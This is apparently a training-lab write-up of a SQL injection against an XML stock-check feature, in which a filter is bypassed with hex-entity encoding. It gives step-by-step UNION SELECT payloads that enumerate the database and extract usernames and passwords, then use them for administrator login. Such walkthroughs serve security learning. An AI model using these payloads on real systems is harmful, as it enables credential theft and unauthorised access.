




# Lab: SQL Injection with Filter Bypass via XML Encoding

## Vulnerability
The stock check feature accepts XML input and is vulnerable to SQL injection. Input is filtered, but the filter can be bypassed using XML encoding.

## Exploit

### Step 1 — Capture request
Intercepted the "Check Stock" request and sent it to Repeater.

### Step 2 — Column count
<storeId><@hex_entities>1 UNION SELECT NULL</@hex_entities></storeId>

Confirmed 1 column.

### Step 3 — Identify database
<storeId><@hex_entities>1 UNION SELECT version()</@hex_entities></storeId>

Identified PostgreSQL.

### Step 4 — List tables
<storeId><@hex_entities>1 UNION SELECT table_name FROM information_schema.tables</@hex_entities></storeId>

Found: users

### Step 5 — List columns
<storeId><@hex_entities>1 UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'</@hex_entities></storeId>

Found:
- username
- password
- email

### Step 6 — Extract data
<storeId><@hex_entities>1 UNION SELECT username || '--' || password FROM users</@hex_entities></storeId>

Retrieved credentials.

### Step 7 — Login
Used extracted credentials to log in as administrator.

## Result
Successfully bypassed filtering, extracted credentials, and authenticated as administrator.

## Key Point
Encoding input can bypass filters and allow SQL injection even when direct payloads are blocked.

## Proof

